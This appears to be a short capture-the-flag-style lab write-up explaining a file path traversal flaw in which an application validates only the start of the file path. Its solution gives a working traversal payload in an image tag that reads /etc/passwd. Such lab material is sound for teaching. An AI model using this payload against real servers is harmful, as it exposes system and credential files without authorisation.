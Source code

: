 # Lab 5: File Path Traversal – Validation of Start of Path

## 📝 Description

This lab involves a File Path Traversal vulnerability where the application attempts to validate file paths by checking only the start of the input.

By cleverly manipulating the input, attackers can bypass this validation and access arbitrary files.

## 🎯 Objective
- Understand how weak start-of-path validation can be bypassed.

- Craft payloads to trick the application’s path checks.

- Access sensitive files like `/etc/passwd`.

## Solution

<img width="1366" height="389" alt="Screenshot (798)" src="https://github.com/user-attachments/assets/3cef913b-311d-433a-8905-e2bf18b899a8" />

```
<img src="/images?filename=/var/www/images/../../../etc/passwd">
```
